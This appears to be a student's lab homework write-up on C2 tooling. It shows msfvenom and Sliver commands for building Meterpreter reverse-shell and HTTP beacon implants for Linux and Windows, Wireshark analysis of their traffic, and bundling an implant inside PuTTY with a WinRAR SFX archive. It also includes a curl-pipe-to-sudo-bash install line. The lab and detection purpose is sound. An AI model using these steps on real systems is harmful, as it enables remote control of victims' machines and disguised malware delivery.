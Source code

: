 # Shells

## a. Snif venom

In this one I will try to use Wireshark to snif out a msfvenon reverse shell tcp malware on my local machine. 

To make things easier, I will disable any internet access so theres less stuff going on in Wireshark. Pinging localhost first to make sure we are listening to the right interface: 

<img src="h6.4.png" alt=img/>

Great, the pings are being listened to, now we can do our exploit. Also making sure we arent connected to the internet.

<img src="h6.1.png" alt=img/>

I will now start my msfconsole and run the msfvenom binary which I've created in my previous homework assignemnt h5 using 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf -o reverse_shell.elf`

so I have the reverse.shell binary still and I will use it for this exercise. Let's open up msfconsole

<img src="h6.2.png" alt=img/>

`msfconsole`

`use exploit/multi/handler`

`set payload linux/x86/meterpreter/reverse_tcp`

`set LHOST localhost`

`set LPORT 4444`

<img src="h6.3.png" alt=img/>

Now on the other terminal we will run the binary of the msfvenon malware using `./reverse_shell.elf`

When we look at wireshark, we can immediately see a bunch of packets being sent over the IP of 127.0.0.1 on port 4444 and 37256

<img src="h6.5.png" alt=img/>

This kind of traffic would seem unusual because it's using port 4444 which is often associated with Metasploit and also it's a connection that's constantly listening with a lot of consistent traffic. That could indicate a reverse shell or some compromised service is listening.

We could mask this by switching to another more obscure or unknown port or even HTTP 80 port. 

-- Update: follow TCP stream to see plaintext commands being sent over the network


## b. Sliver HTTP

So in this one we want to make a sliver implant that communicates over HTTP.

First we need to install sliver using `curl https://sliver.sh/install|sudo bash`

Then we will start the sliver service `systemctl start sliver`

Now we will use sliver with `sliver`

<img src="h6.6.png" alt=img/>

Now we can create the implant 
`generate beacon --http <your_server_ip> --os <target_os> --arch <target_arch>`

My command for my own linux host
`generate beacon --http 127.0.0.1 --os linux --arch 386`

`http` can also be some other like `mtls` or `dns`
`--os` for operating system

`--arch` for CPU architecture whether 64 bit or 32 bit

We should have some sort of executable that we can run. 

<img src="h6.7.png" alt=img/>

Now we just need to start http listener with `http` in sliver and `jobs` to inspect it 

<img src="h6.8.png" alt=img/>

Now we just run the executable in linux and we will get a beacon session. 

<img src="h6.9.png" alt=img/>

We can `use <beacon id>` to interact with it and execute commands

## c. Sliver Wireshark Inspect

<img src="h6.10.png" alt=img/>

On wireshark, we can see a lot of HTTP traffic on port 80 and consistent 86 byte packets being sent over the network

<img src="h6.11.png" alt=img/>
When we do `use <beacon_id>` and interact with the beacon we get even more traffic

This is suspicious because it's repeated TLS data with consistent size

TCP Keep-Alive packets and TCP ACK events shows active TCP connection

Port 31337 is a common port for backdoors? 

POST/authenticate/auth/login.php HTTP requests when you aren't really using any website


## d. Changing active connection type in Sliver?

--Update:

We can pivot from http connection to tcp using 

generate 127.0.0.1 --tcp-pivot --os linux



## e. Screensaver in sliver

You can save screenshot in sliver with `screenshot` while using an active beacon

<img src="h6.12.png" alt=img/>

I have an issue where sliver makes a task but it takes forever for it to complete

<img src="h6.13.png" alt=img/>

This was run on my windows machine and the result was saved to the tmp folder


## f. Sliver binary for windows

Let's make a sliver binary for windows: 
`generate beacon --http 192.168.150.6 --os windows --arch 64`

Turn on `http`

<img src="h6.14.png" alt=img/>

I will execute it on windows now through a shared drive, and run the exe: 

<img src="h6.15.png" alt=img/>

It works

## g. Bundling Sliver with another executable

For this we can use winrar to bundle two exes together using the SFX feature. 

First select the executables you want to use: 


<img src="h6.16.png" alt=img/>

In this case it's sliver binary and PuTTy. I will use Winrar to bundle as SFX

<img src="h6.17.png" alt=img/>

Make sure to password protect and label it as malware

<img src="h6.18.png" alt=img/>

Now we have a password protected exe file. When we run it, we get putty but also run the implant and get a beacon connection on sliver

<img src="h6.19.png" alt=img/>

<img src="h6.20.png" alt=img/>

References:

https://terokarvinen.com/tunkeutumistestaus/

https://osqa-ask.wireshark.org/questions/20423/pshack-wireshark-capture/#:~:text=The%20ACK%20indicates%20that%20a,also%20transmitting%20some%20more%20data.

https://seamlessintelligence.com.au/sliver_1.html

https://github.com/BishopFox/sliver/wiki/HTTP(S)-C2/2f6500892f78dbaae0bd4d41fc72e44aef6759ee

https://www.linkedin.com/pulse/sliver-c2-implementation-hands-on-approach-adegbola-adeleye-0gl6e/

https://barrymalone.medium.com/sliver-an-awesome-c2-framework-c0257f2f52e4

https://dominicbreuker.com/post/learning_sliver_c2_02_beacons_and_sessions/

https://www.cbtnuggets.com/common-ports/what-is-port-31337